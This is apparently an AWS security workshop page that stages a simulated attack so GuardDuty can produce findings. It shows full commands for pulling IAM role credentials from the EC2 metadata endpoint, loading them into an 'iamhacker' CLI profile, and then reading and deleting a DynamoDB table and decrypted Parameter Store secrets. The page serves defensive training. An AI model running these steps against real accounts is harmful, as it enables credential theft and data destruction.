 ```yaml
---
title : "Create Findings"
date :  2025-06-11
weight : 2 
chapter : false
pre : " <b> 3.3. </b> "
---
```

### Situation 3:: 
Long has just realized that the recent attacks are simulated attacks, the Findings are automatically generated from CloudFormation Template to review the security capabilities of Security Hub and GuardDuty. However, the security risk still exists, a hacker named Bao has successfully retrieved the temporary IAM security credential generated by the IAM role of EC2 instance. So how did this hacker retrieve it?

**Retrieve temporary IAM security credentials with Systems Manager**

To perform this final attack, Bao needs to successfully retrieve the temporary IAM security credential generated by the IAM role of the EC2 instance. Bao can try one of the following two ways:
1. SSH into EC2 instance and query EC2 instance Metadata data.
2. Use the Session Manager functionality of the AWS System Manager service.

> We will proceed to create the Findings
1. Access the Session Manager at ap-southeast-1.

![create findings](/images/3.attack/3.3/1.png)

2. In the right hand navigation bar, select **Start Session**.

![create findings](/images/3.attack/3.3/2.png)

3. In the **Target instances** section we will see a managed EC2 instance with the following name format - **GuardDuty-Example: Compromised Instance: Scenario 3** with SSM Agent ping status as Online.
4. Select instance **GuardDuty-Example: Compromised Instance: Scenario 3** and press **Start session**.

![create findings](/images/3.attack/3.3/3.png)

5. Execute the Metadata query statement:

         curl http://169.254.169.254/latest/meta-data/iam/security-credentials/GuardDuty-Example-EC2-Compromised

6. Open notepad, take notes of some important information below:
- Access Key ID
- Secret Access Key
- Session Token

![create findings](/images/3.attack/3.3/4.png)

### Create AWS CLI Profile on your PC
After successfully retrieving the temporary IAM security credential, we will proceed to create an AWS CLI Profile on our personal computer. From Terminal/CMD/PowerShell, we proceed to replace the values ​​with the specific values ​​we collected, then enter the following commands:

      aws configure set profile.iamhacker.region ap-southeast-1
      aws configure set profile.iamhacker.aws_access_key_id <ACCESS_KEY_ID>
      aws configure set profile.iamhacker.aws_secret_access_key <SECRET_ACCESS_KEY>
      aws configure set profile.iamhacker.aws_session_token <SESSION_TOKEN>

We can use the following command to quickly check if there is an AWS CLI Profile named **iamhacker**
      
      aws configure --profile iamhacker

![create findings](/images/3.attack/3.4/1.png)

#### Execute AWS CLI commands using temporary IAM security credentials
Using the AWS CLI commands below, we make API calls to different AWS services.

**What permissions does an IAM user have?**
      
      aws iam get-user --profile iamhacker
      aws iam create-user --user-name BuiChiBao --profile iamhacker

![create findings](/images/3.attack/3.4/2.png)

> So IAM user can not get-user nor create-user

**Is there access to DynamoDB?**

      aws dynamodb list-tables --profile iamhacker
      aws dynamodb describe-table --table-name GuardDuty-Example-Customer-DB --profile iamhacker

![create findings](/images/3.attack/3.4/3.png)

![create findings](/images/3.attack/3.4/4.png)
**Is there any access to DynamoDB data?**

      aws dynamodb scan --table-name GuardDuty-Example-Customer-DB --profile iamhacker
      aws dynamodb delete-table --table-name GuardDuty-Example-Customer-DB --profile iamhacker
      aws dynamodb list-tables --profile iamhacker

![create findings](/images/3.attack/3.4/5.png)

![create findings](/images/3.attack/3.4/6.png)

> This way the hacker has access and can query data to DynamoDB.

**Is it possible to access the System Manager Parameter Store?**

      aws ssm describe-parameters --profile iamhacker
      aws ssm get-parameters --names "gd_prod_dbpwd_sample" --profile iamhacker
      aws ssm get-parameters --names "gd_prod_dbpwd_sample" --with-decryption --profile iamhacker
      aws ssm delete-parameter --name "gd_prod_dbpwd_sample" --profile iamhacker

![create findings](/images/3.attack/3.4/7.png)

> This gives the hacker access to the System Manager Parameter Store.